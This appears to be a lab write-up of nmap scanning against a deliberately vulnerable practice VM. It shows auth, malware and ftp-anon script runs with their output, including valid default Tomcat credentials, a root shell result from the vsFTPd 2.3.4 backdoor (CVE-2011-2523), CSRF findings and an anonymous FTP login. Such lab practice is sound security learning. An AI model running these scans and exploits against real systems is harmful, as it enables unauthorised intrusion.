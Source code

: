 # Finding Vulnerability with nmap scripts

nmap --script auth <Target ip> -sS

# tomcat exploit

Post-scan script results:
| creds-summary: 
|   192.168.87.109: 
|     8180/unknown: 
|       tomcat:tomcat - Valid credentials
|_      tomcat:tomcat - Valid credentials
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds

```
nmap -script malware 192.168.87.109 -sS -F

nmap -script banner 192.168.87.109 -sS -F
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://www.securityfocus.com/bid/48539
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
53/tcp   open  domain
80/tcp   open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.87.109
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.87.109:80/dvwa/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=dns-lookup.php
|     Form id: iddnslookupform
|     Form action: index.php?page=dns-lookup.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=register.php
|     Form id: id-bad-cred-tr
|_    Form action: index.php?page=register.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
513/tcp  open  login
514/tcp  open  shell
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
8009/tcp open  ajp13
MAC Address: 08:00:27:42:FE:60 (Oracle VirtualBox virtual NIC)
```

```nmap -script ftp-anon.nse 192.168.87.109```

```
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

FTP anonymous

ftp 192.168.87.109

Connected to 192.168.87.109.
220 (vsFTPd 2.3.4)
Name (192.168.87.109:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```